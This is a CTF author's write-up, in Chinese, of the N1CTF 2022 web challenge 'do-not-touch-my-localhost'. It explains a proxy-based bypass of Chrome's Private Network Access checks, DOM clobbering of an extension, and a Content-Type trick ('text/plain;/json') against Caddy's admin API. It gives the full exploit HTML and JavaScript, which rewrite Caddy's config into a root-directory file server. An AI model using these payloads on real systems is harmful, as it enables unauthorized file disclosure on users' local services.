






# do-not-touch-my-localhost

N1CTF 2022 web challenge

## 起源

N1CTF 2022 我又整了个有意思的活"do not touch my localhost"，感觉难度确实有点高，最后只有@rmb122做出来了。去年那个题有两个队做出来了，我说今年应该能多一点吧，结果今年更少了。

题目环境和题解可以在[do-not-touch-my-localhost](https://github.com/Nu1LCTF/n1ctf-2022/tree/main/Web/do-not-touch-my-localhost)这里找到

其实这个题核心点是我无意中发现的，那天正在使用Chrome网上冲浪，忽然注意到了Chrome的将要完善的私有网络访问预检 [private-network-access-preflight](https://developer.chrome.com/blog/private-network-access-preflight)后文简称PNA，这个预检的目的是为了防止网站攻击用户本地网络的Web服务，这些Web服务通常开放在`127.0.0.1`本地地址上，且大多时候没有认证即可访问，容易受到CSRF的攻击。由于CORS的保护，来自他域的请求无法读取其中的数据，但是仍然可以发送一些简单请求，包括`GET`和`POST`，发送一些指令给到这些本地的Web服务，或者通过`DNS Rebinding`绕过这个CORS防护。有关私有网络访问的设计细节，可以查看[private-network-access](https://wicg.github.io/private-network-access/)。

浏览器引入的PNA将很好的解决上述问题，当一个公共IP的Web网站向访问私有或本地网络时，浏览器通过发送一个预检，这个预检会携带一个`Access-Control-Request-Private-Network: true`头，询问本地的Web服务是否允许私有网络访问，如果允许，那么返回一个`Access-Control-Allow-Private-Network: true`头以允许访问。在现阶段Chrome 107之前，这个预检会发送但是私有网络访问不会受到限制。

私有网络访问的实现标准将ip地址分为三级，分别是Local，Private和Public，实际上就对应了ip地址的本地地址，私有地址和其他的地址。如果在网站的主机ip位于外一级地址，当它向内一级的ip发送请求时，就需要对进行检查。同级或向外一级发送请求则不需要检查。



如下图所示，我在一个公共ip的网站中用fetch请求本地网络的Web服务，虽然发送了预检，但是并没有遵循预检结果，直接将真实的请求发送了出去。



如果想让预检发挥作用，可以在`chrome://flags`里把`#private-network-access-respect-preflight-results`这个开关打开，这样请求就无法发送。



当我发现了这个功能之后，我就开始在各种网站上进行测试，然后我就发现了一个非常奇怪的地方，google.com在向本地网络发送请求时，似乎连预检都不发送。这就非常奇怪了，我甚至还跟rmb开玩笑说这是google给自己开的后门。



后来经过一段时间的探索，我发现这与这个网站是否被代理有关，由于众所周知的原因，googe.com在中国无法直接访问，需要通过一些神奇软件的代理，才能访问google.com。对于被代理的网站Chrome会把它的源ip识别为`127.0.0.1`，根据我们之前提到的网络分级，同级请求是不需要检查的，因此这个被代理google.com就可以正常的向本地网络发送请求。



对于Chrome时如何判断是否发送预检是否阻断请求的，可以阅读一下Chromium的源码[DerivePrivateNetworkRequestPolicy](https://source.chromium.org/chromium/chromium/src/+/main:content/browser/renderer_host/private_network_access_util.cc;drc=caa1747121ee9f14ba7d4e346ea2dc5e7a2e05c0;bpv=1;bpt=1;l=31)。

但这是不是一个漏洞呢？在标准中已经提到了代理的问题，第四节[implementation-considerations](https://wicg.github.io/private-network-access/#implementation-considerations)中提到了file协议，代理还有缓存。显然标准中已经意识到了代理的问题，但似乎更注意网站是否可以通过访问私有网络地址来判断自身是否被代理从而带来的隐私问题，而不是代理被广泛使用从而带来的绕过问题。

>In the current implementation of this specification in Chromium, proxies influence the [address space](https://wicg.github.io/private-network-access/#ip-address-space) of resources they proxy. Specifically, resources fetched via proxies are considered to have been fetched from the proxy’s IP address itself.
>
>This can allow a website to learn that it was proxied by observing that it is allowed to make requests to [private addresses](https://wicg.github.io/private-network-access/#private-address), which is a privacy information leak. While this requires correctly guessing the URL of a resource on the private network, a single correct guess is sufficient.

对于绕过预检访问本地网络还有一个标准中没有提到的问题，在浏览器中`0.0.0.0`被认为是公共地址，但在Linux、MacOS来说，`0.0.0.0`被视为本地地址`127.0.0.1`，因此可以直接向`0.0.0.0`发送请求而无需预检。



不过最后出题的时候我还是选择了利用这个代理整个有意思的活。

## 出题

现在目标选好了，需要把这个东西变成一个可以操作的CTF题，这个我思考了很久。最开始的想法是放一个代理进去，然后配置PAC让某些网站可以走代理，再利用开放式重定向之类的洞跳转过去攻击本地服务。想了想感觉有些简单了，而且对于国外选手来说可能也不太理解为什么要让某些网站走代理。

后来想到做一个可以调整代理的浏览器插件，让选手先打浏览器插件，控制代理到`127.0.0.1`重新获取html，再攻击`127.0.0.1`中的web服务。这个想法就是现在这个题的基本思路。

现在又有了一个新问题，在`127.0.0.1`上部署什么服务当受害者呢，一开始想到的是Redis，但是发现Redis检测发过来的请求是不是HTTP，如果是就拒绝访问，说你受到了攻击。然后又看了看各种语言的调试接口，试了试也不行，比如Node的调试接口虽然有HTTP访问，但是由于CORS无法获取到WebSocket的链接。

### Caddy

最后我就找到了现在这个受害者[Caddy](https://caddyserver.com/docs/)，Caddy是一个Web服务器，可以实现多种功能，包括反向代理、文件浏览等功能。这个Caddy默认开着一个管理端口在`127.0.0.1:2019`上，提供了一些[API](https://caddyserver.com/docs/api)，比如`/load`，通过这个管理端口可以修改Caddy的配置，实现任意文件读。

但是又遇到一个新的问题，还是因为这个CORS，因为我现在要请求`127.0.0.1`上的网站，它会是一个跨域请求。对于跨域请求只有满足以下条件才不会触发CORS预检，CORS的明确标准可以在这里查看[cors](https://www.w3.org/TR/2014/REC-cors-20140116/)或者参考[MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)：
1. 请求方法必须为GET，POST，HEAD三者之一
2.  请求头除了浏览器追加的比如User-Agent，手动设置的只能包含Accept，Accept-Language，Content-Language，Content-Type，Range
3. 如果设置了Content-Type，那么它的值只能是application/x-www-form-urlencoded，multipart/form-data，text/plain三者之一
非常不幸的是，如果想修改Caddy的配置所使用的API：`localhost:2019/load`，只接受特定Content-Type的数据，比如`application/json`，如果为了避免产生CORS预检设置为`text/plain`，它并不会把你的数据当作json，即使它真的是json。他会产生下面的错误

```
{"error":"unrecognized config adapter 'plain'"}
```

在Caddy源码中`admin.go`的newAdminHandler函数注册了所有的admin api，我们用到的`/load`，实际上是`admin.api.load`的插件注册的

```go
// admin.go
func (admin *AdminConfig) newAdminHandler(addr NetworkAddress, remote bool) adminHandler {
    // ...
    // register third-party module endpoints  
    for _, m := range GetModules("admin.api") {
       router := m.New().(AdminRouter)
       handlerLabel := m.ID.Name()
       for _, route := range router.Routes() {
          addRoute(route.Pattern, handlerLabel, route.Handler)
       }   admin.routers = append(admin.routers, router)
    }
    // ...
}
```

这个插件的代码位于`caddyconfig/load.go`，用于处理`/load`的api是`handleLoad`，从代码中可以看出它读取了`Content-Type`，然后传入了`adaptByContentType`进行处理，在`adaptByContentType`中使用go标准库的`mime.ParseMediaType`处理了`Content-Type`，取出了实际的媒体类型，然后判断是不是以`/json`结尾，如果是就把整个请求body返回，如果不是，则取出`/`后的子类型查询adapter，在默认情况下，只有`caddyfile`这一个adapter。回顾之前提到的浏览器在对`Content-Type`的限制，这里算是一条死路了。

```go
func (adminLoad) handleLoad(w http.ResponseWriter, r *http.Request) error {
    // ...
    if ctHeader := r.Header.Get("Content-Type"); ctHeader != "" {
       result, warnings, err := adaptByContentType(ctHeader, body)
       // ...
       body = result
    }
    forceReload := r.Header.Get("Cache-Control") == "must-revalidate"
    err = caddy.Load(body, forceReload)
    // ...
}

func adaptByContentType(contentType string, body []byte) ([]byte, []Warning, error) {
    // ...
	ct, _, err := mime.ParseMediaType(contentType)
	if err != nil {
		return nil, nil, caddy.APIError{
			HTTPStatus: http.StatusBadRequest,
			Err:        fmt.Errorf("invalid Content-Type: %v", err),
		}
	}

	// if already JSON, no need to adapt
	if strings.HasSuffix(ct, "/json") {
		return body, nil, nil
	}

	// adapter name should be suffix of MIME type
	_, adapterName, slashFound := strings.Cut(ct, "/")
	if !slashFound {
		return nil, nil, fmt.Errorf("malformed Content-Type")
	}

	cfgAdapter := GetAdapter(adapterName)
	if cfgAdapter == nil {
		return nil, nil, fmt.Errorf("unrecognized config adapter '%s'", adapterName)
	}

	result, warnings, err := cfgAdapter.Adapt(body, nil)
	if err != nil {
		return nil, nil, fmt.Errorf("adapting config using %s adapter: %v", adapterName, err)
	}

	return result, warnings, nil
}
```

其实除了`/load`之外还有一个api可以修改配置，就是`/config`，虽然文档里的表述是"Changes Caddy's configuration at the named path to the JSON body of the request"，但如果直接打`/config/`就可以覆盖整个Caddy配置。

`/config/`的处理函数是admin.go的`handleConfig`，这里就有一行非常有趣的代码，`ct := r.Header.Get("Content-Type"); !strings.Contains(ct, "/json")`，它判断`Content-Type`，是直接判断是否包含了`/json`，而没有调用标准库的`mime.ParseMediaType`，这就造成了一个问题。

`Content-Type`是可以带参数的，就是分号后面的部分，常见的参数是`charset`，比如`Content-Type: text/html; charset=utf-8`，在标准中[cors-safelisted-request-header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)，参数是不被检测的，因此我们可以放一个`/json`到这个`Content-Type`中，比如`text/plain;/json`,这样就可以让浏览器不发送预检，但Caddy仍然正常识别我们的config内容。

```go
func handleConfig(w http.ResponseWriter, r *http.Request) error {
    switch r.Method {
    case http.MethodGet:
        // ...
    case http.MethodPost:
		// ...
		if r.Method != http.MethodDelete {
			if ct := r.Header.Get("Content-Type"); !strings.Contains(ct, "/json") {
				return APIError{
					HTTPStatus: http.StatusBadRequest,
					Err:        fmt.Errorf("unacceptable content-type: %v; 'application/json' required", ct),
				}
			}

			buf := bufPool.Get().(*bytes.Buffer)
			buf.Reset()
			defer bufPool.Put(buf)

			_, err := io.Copy(buf, r.Body)
			if err != nil {
				return APIError{
					HTTPStatus: http.StatusBadRequest,
					Err:        fmt.Errorf("reading request body: %v", err),
				}
			}
			body = buf.Bytes()
		}

		forceReload := r.Header.Get("Cache-Control") == "must-revalidate"

		err := changeConfig(r.Method, r.URL.Path, body, r.Header.Get("If-Match"), forceReload)
		if err != nil && !errors.Is(err, errSameConfig) {
			return err
		}
   }
}
```

最后我们需要制作一个json使得Caddy变成一个文件服务器直接列出根目录的内容，最后发送请求的js代码如下：

```javascript
fetch("http://127.0.0.1:2019/config/",{"method":"POST","body":`{"apps":{"http":{"http_port":8888,"https_port":8443,"servers":{"srv0":{"listen":[":8888"],"routes":[{"handle":[{"handler":"vars","root":"/"},{"browse":{},"handler":"file_server"}],"terminal":true}],"automatic_https":{"disable_redirects":true}}}}}}`,"mode":"no-cors","headers":{"content-type":"text/plain;/json"}})
```

### XSS

接下来是设计这个XSS部分，首先需要把浏览器插件塞进去，并且不能让浏览器插件显得太突兀（好像有点坏）。经过一番思考，我把这个代理做成了一个请求拦截器，让选手看起来是为了防止他们向外发送请求（最后确实把一些人带进了坑里，dbq）。

在出这个题之前，对浏览器插件的开发了解的不是很多，写这么个插件属实是照猫画虎，好在功能比较简单。这里吐槽一下Chrome的文档，写的是真不如MDN好。从插件的角度看，实际上有三种执行环境，"background"，"content scripts"，"page script"。第一个是权限最完整的执行环境，可以调用全部的已授权的Chrome API。第二个是与页面绑定在一起的，它与页面共享DOM，但不共享js上下文，还可以调用部分Chrome API并且与background进行通信，第三个就是正常的页面环境，即使是扩展插入的代码也无法调用任何的Chrome API（不过可以配置`externally-connectable`，让页面获得直接向扩展发送消息的能力）。

首先做一个background service worker，核心代码就是调用`chrome.proxy.settings.set`设置代理，然后注册一个Listener监听消息。这里的代码有一个非常奇怪的地方，为什么我要直接用从外面传进来的options，而不限定一下参数的范围。其实是为了后面的一个小小的出题点。

```javascript
function setProxy(options) {
  const config = {
    mode: "fixed_servers",
    rules: {
      singleProxy: options,
    },
  };
  try{
    chrome.proxy.settings.set({ value: config, scope: "regular" });
  }catch{}
}

chrome.runtime.onMessage.addListener(async function (
  request,
  sender,
  sendResponse
) {
  if (request.type == "setProxy") {
    setProxy(request.options);
    sendResponse({});
  }
});
```

接下来是content script，在这里我埋了一个dom clobbering，就是`window.proxy_options`，因为content script与页面是共享dom但不共享js上下文，因此即使在页面的js中覆盖了`proxy_options`，还是可以利用dom clobbering污染`proxy_options`。不过这个代码放在这里确实有些刻意，但是我也没想出太好的方法来藏这个知识点。

```javascript
window.addEventListener("message", function (event) {
  if (event.origin === window.origin) {
    if (event.data.type === "setProxy") {
      let { hostname, port = "1080" } = window.proxy_options ?? event.data.options;
      chrome.runtime.sendMessage({
        type: "setProxy",
        options: { host: hostname, port: parseInt(port) },
      });
    }
  }
});

```

然后我又写了一个页面脚本文件来postMessage设置proxy。

```javascript
window.proxy_options = null;

window.postMessage({
    type: "setProxy",
    options: {"hostname":"1.2.3.4","port":12345}
}, "*")
```

后端就是一个简简单单的留言板，加了两个header防止直接插入script标签和sniff。

```
Content-Security-Policy: default-src 'self'; base-uri 'none'; object-src 'none';
X-Content-Type-Options: nosniff;
```

然后用chromedp启动浏览器显示用户提交的内容，这个chromedp比puppeteer可难用多了，不仅提供的功能少，而且写起来也非常麻烦。这里有两个坑点：

第一个是chrome的`headless`模式，不能设置为`true`，纯的headless砍掉了一些功能，比如扩展，`chrome://`页面等。最近的chrome提供了一个新的选项`--headless=chrome`，这个选项是我从asiactf的xtr题目里发现的，非常诡异的是这个选项目前没有任何文档，只有puppetter的命令行选项提到了它[headless property](https://pptr.dev/api/puppeteer.browserlaunchargumentoptions.headless) 以及issue的讨论[Extensions in headless](https://github.com/puppeteer/puppeteer/issues/8173)。

第二个坑点是命令行选项`enable-features`，因为我要启用两个实验性flag，网上的资料说法不一，我也差点掉进坑里，这个选项的参数需要的是CamelCase命名的flag，并且中间用逗号隔开，但即使加了这个选项，在`chrome://flags`不会看到任何启用的指示，我也因此郁闷了好久。后来经实际测试，虽然`chrome://flags`里没有结果，但是功能是实际启用的，例如我使用的`--enable-features=BlockInsecurePrivateNetworkRequests,PrivateNetworkAccessRespectPreflightResults`，确实阻断了向私有网络的链接。

至于为什么要用go语言写，完全是为了省内存，我发现nodejs基础内存要大约20M，而go写只要5M就够了。

## 预期解

整个题的出题过程已经描述完了，虽然这个题要素有点多，但其实目标还是听明确的，就是去修改caddy的配置文件。要想打到caddy就需要绕过PNA，绕过PNA需要改变代理到127.0.0.1，流程大致就是这个样子。后来在跟一位师傅交流的时候，我发现他竟然没有意识到我开了PNA，因此一直在尝试用DNS rebinding绕过CORS，想想这个标志位确实有点不太明显，对这位师傅说声对不起。

解题的第一步就是进行`dom clobbering`，在代码中我使用的是`let { hostname, port = "1080" } = window.proxy_options`，从`proxy_options`取出两个属性，这里可以直接使用a标签，因为a标签的dom属性中包含了port，hostname等url信息。这里我发现进行`dom clobbering`时会影响在head中引入的blocker.js，因为postmessage是异步的，所以可能dom节点被污染了之后content script才接收到消息。

这里也考虑过等待content script执行完再加载用户内容，但是如果使用document.write会导致content script的message监听失效，无法完成后面再触发一次修改代理的功能，索性就直接放在那里了。

第二步是重新触发blocker.js，只需把js文件再引入一遍即可，代码会再执行一遍。然后代理会被设置到我们所指定的地址，这时候就可以进行中间人攻击。这时我们需要加载一个新的页面，一开始的想法是iframe，但是这个iframe的加载和代理切换的顺序不是很稳定，需要将iframe设置为lazyloading，再利用css进行一些延时才能稳定触发。后来意识到可以用meta标签控制延时跳转就可以了。

这个中间人的服务器可以直接用PHP的内置web server，我发现他会忽略url的host部分直接匹配路径。

这两步的代码：

```html
<a id="proxy_options" href="http://server"></a>
<script src="/static/js/blocker.js"></script>
<meta http-equiv="refresh" content="1; URL='/exp.html'" />
```

然后在我们的服务器上创建这个exp.html。

主要的步骤也是两步：

第一步，重新将代理设置回127.0.0.1，绕过PNA，然后加载一个新的web页面，这个web页面不能是之前index之类的已缓存的页面，缓存页面的远程地址是第一次加载的地址，随便请求一个404就可以了。

第二步，因为加载的是同源的页面，所以可以直接控制页面内容，在这个新的页面上面发送请求，修改caddy的配置，将其变成文件浏览服务器。

```js
  window.postMessage({ type: "setProxy", options: { hostname: "127.0.0.1", port: 8080 } },"*");
  setTimeout(function () {
    const iframe = document.createElement("iframe");
    iframe.src = "/404";
    document.body.appendChild(iframe);
    setTimeout(function () {
      iframe.contentWindow.eval('fetch("http://127.0.0.1:2019/config/",{"method":"POST","body":`{"apps":{"http":{"http_port":8888,"https_port":8443,"servers":{"srv0":{"listen":[":8888"],"routes":[{"handle":[{"handler":"vars","root":"/"},{"browse":{},"handler":"file_server"}],"terminal":true}],"automatic_https":{"disable_redirects":true}}}}}}`,"mode":"no-cors","headers":{"content-type":"text/plain;/json"}})');
    }, 100);
  }, 100);
```

这样这个题就完成了

## 运维

本以为题出完了就完事儿了，结果又遇到一个大问题，因为预期解需要修改caddy并将其变成文件服务器，这样一来只要一个人打通了那么肯定会遇到很多人上车一起拿flag，即使设置定时重启也不太管用，因此必须需要动态容器，此时去年就计划的统一容器还在咕咕咕，所以我只好在离开赛还有两天的时间内自己开发一个动态容器平台出来。

本着开发点东西就尝试点新东西的奇怪想法，我决定用之前没用过的fastapi和tortoise实现一个纯异步的平台，在开发这个平台的时候我也踩了好多坑，不过最后还是开发出来了，虽然有一些预想的功能没有实现完，但是核心的认证，申请容器，交flag都已经完成了。其实说是异步，docker的请求没有做成异步，因为那个aiodocker实在是太拉了，最后还得用官方的sdk。

不过在实际线上运行的时候由于做题的人数实在太少，所以没看出来它暴露的bug，这个运维可谓是一帆风顺。而且我省吃俭用省下的内存竟然没有意义，全程几乎没有超过两个人同时开容器，我只能呜呜呜了。

后来梅子酒师傅也想用我这个动态容器，但他的题有两个container还需要创建一个网络，这就是完全没有考虑进去的内容了，所以只好作罢。

总之有机会还是想继续完善一下这个容器平台，希望能实现多节点部署和完整的docker-compose的支持。

最后这个半成品项目在[challenged](https://github.com/HSwift/challenged)，我会尽快把功能完善好（大概

## 总结

其实没啥好总结的，只有rmb122做出来了，并且完全按照预期。希望明年整的活能多点人做，可不要变成0啊喂